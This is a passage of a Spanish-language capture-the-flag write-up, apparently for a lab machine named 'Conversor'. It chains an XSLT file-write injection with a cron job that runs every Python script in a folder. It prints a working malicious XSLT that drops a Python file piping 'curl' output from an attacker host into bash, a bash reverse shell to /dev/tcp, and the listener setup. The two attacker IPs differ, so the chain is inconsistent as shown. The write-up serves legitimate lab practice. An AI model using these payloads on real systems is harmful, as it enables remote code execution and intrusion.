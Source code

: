 ```shell
BASE_DIR = os.path.dirname(os.path.abspath(__file__))
DB_PATH = '/var/www/conversor.htb/instance/users.db'
UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads')
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
```

- En en fichero `install.md` nos encontramos con este mensaje interesante donde todos los archivos se ejecutan en un directorio `/script` con un crontab

```shell
You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

## Intrusión 
Con todo ello vamos a intentar inyectar la revershell en un fichero xslt de la siguiente manera:

Un archivo shell.xslt 
```shell
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell"
    version="1.0"
>
<xsl:template match="/">
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.17:8000/shell.sh|bash")
</shell:document>
</xsl:template>
</xsl:stylesheet>
```

- Un archivo shell.sh
```shell
#!/bin/bash                                     
bash -i >& /dev/tcp/10.10.14.81/9001 0>&1
```

De esta manera subimos los dos archivos, previamente ponemos un server con python al puerto 8000 para posteriormente ponernos en escucha con `nc lvnp` en el puerto 9001 para entablar la conexión.

```shell
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
